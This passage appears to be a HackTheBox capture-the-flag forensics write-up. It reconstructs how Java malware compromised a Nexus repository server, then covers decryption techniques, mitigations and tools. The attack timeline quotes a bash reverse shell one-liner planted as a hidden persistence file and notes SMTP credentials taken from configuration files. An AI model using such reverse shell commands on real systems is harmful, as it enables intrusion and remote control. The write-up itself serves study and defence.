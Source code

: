 #### 3. Attack Timeline Reconstruction
**Decrypted Communication Reveals:**
1. **Initial Command:** `uname -a` (system reconnaissance)
2. **System Response:** `Linux phoenix-repo 5.15.0-134-generic...`
3. **File System Reconnaissance:** Multiple find/grep commands
4. **Configuration Extraction:** 
   - User account: `john_smith` from security.xml
   - SMTP credentials from nexus.xml
5. **Persistence Establishment:** 
   - Creates: `/sonatype-work/storage/.phoenix-updater`
   - Contains: `bash -i >& /dev/tcp/10.10.10.23/4444 0>&1`

## Key Technical Concepts

### Network Forensics
- TCP stream filtering enables isolation of specific communication channels
- HTTP object extraction provides access to transferred files
- Base64 encoding commonly used in malware communication

### Java Malware Analysis
- JAR files contain compiled Java bytecode that can be decompiled
- Static blocks execute during class loading for steganographic data
- Method names often obfuscated but functionality remains analyzable

### Encryption Analysis
- AES with CBC mode requires IV extraction for proper decryption
- Multi-layer obfuscation (XOR, Base64, character transformation)
- Key generation algorithms can be reverse-engineered from bytecode

## Mitigation Recommendations

### Network Security
- Implement deep packet inspection for encrypted communication patterns
- Monitor for unusual outbound connections from repository servers
- Use network segmentation to isolate critical infrastructure

### Application Security
- Regularly update Nexus Repository Manager to latest versions
- Implement JAR file scanning before deployment
- Use application whitelisting to prevent unauthorized code execution

### Monitoring and Detection
- Deploy SIEM rules for repository server authentication anomalies
- Monitor for creation of hidden files in application directories
- Implement behavioral analysis for unusual system commands

## Tools Used

- Wireshark for network traffic analysis and stream extraction
- javap for Java bytecode decompilation  
- Python with pycryptodome for AES decryption
- Base64 command-line utilities for decoding

## Write-Up Credit: [binchickens69](https://ctf.hackthebox.com/user/profile/605069)
